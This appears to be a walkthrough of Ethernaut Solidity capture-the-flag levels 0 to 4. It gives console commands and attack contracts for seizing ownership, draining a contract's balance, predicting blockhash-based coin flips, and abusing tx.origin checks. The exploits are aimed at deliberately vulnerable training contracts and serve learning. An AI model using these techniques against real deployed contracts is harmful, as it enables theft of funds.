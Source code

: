 This is a new walkthrough of the Ethernaut Solidity CTF.

I did it previously but I want to go through it again and write a detailled walkthrough.

# Levels
## Lvl-0 Hello Ethernaut
Follow the instructions in the console until you get to:
`await contract.method7123949()
'If you know the password, submit it to authenticate().'`.
Remember that you can access to the ABI object with 'contract.abi'.
You will see the 'password' method that you can call:
`'await contract.password()
'ethernaut0'`
Then simply call contract.authenticate() with the param 'ethernaut0', pay for the transaction with metamask,
wait for tx to be mined, click the 'submit instance' button and voila!

## Lvl-1 Fallback
To pass this level, you first need to send some eth to it through the contribute() function, then some more eth through the fallback function.
First check that your contribution is 0, with 'await contract.checkContributions()' that returns 0.
Then call 'await contract.contribute({value: 1})' and pay for the tx.
Wait for the tx to be mined then call 'await contract.checkContributions()' again. It should now be 1.
Now you can send eth through the fallback function with
'await web3.eth.sendTransaction({to: instance, from: player, value: 1})'.
Waited for the tx to be mined and check the owner with 'await contract.owner()'
It should be your address.
You can now call the withdraw function and drain the contract of it's balance.
Call 'await web3.eth.getBalance(instance)' to check that balance is 0.
Click 'submit instance'.

## Lvl-2 Fallout
For this level, you just have to call the 'Fallout()' function with 1 wei and the contract will be yours.
The code comments say that Fallout() is the constructor but that's wrong. Since Solidity v0.4.23, constructors are now specified using the constructor keyword, and since the code is Solidity 0.6, the function Fallout() is not called during deployement and no owner is assigned to the contract.

## Lvl-3 CoinFlip
In order to beat this level, you need to write a smart contract in remix that does the same calcul then the targeted contract and send the guess to the target.
Here is the code:
`pragma solidity 0.6.0;

import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/docs-v3.x/contracts/math/SafeMath.sol';

interface CoinFlip {
    function flip(bool) external;
}

contract Flipper {

    using SafeMath for uint256;

    CoinFlip target = CoinFlip(0xe364E0Cd32846CfbeBfBe21E84611e8467F0E1A4);

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function attack() public returns(bool) {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));

        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
        target.flip(side);
    }
}`
Then just call the 'attack()' function 10 times (wait some time between each calls to be sure you are not calling the function twice within one block).

## Lvl-4 Telephone
Simply make a contract that calls 'changeOwner()' while passing the msg.sender of your address as the arguments.
```
pragma solidity 0.6.0;
contract Caller {
    Telephone telephone = Telephone(YOUR_INSTANCE_ADD);

    function call() public {
        telephone.changeOwner(msg.sender);
    }
}
```
The tx.origin will be your metamask address, the msg.sender will be your Caller contract, and therefore you will pass the check on the first line of 'changeOwner()'.

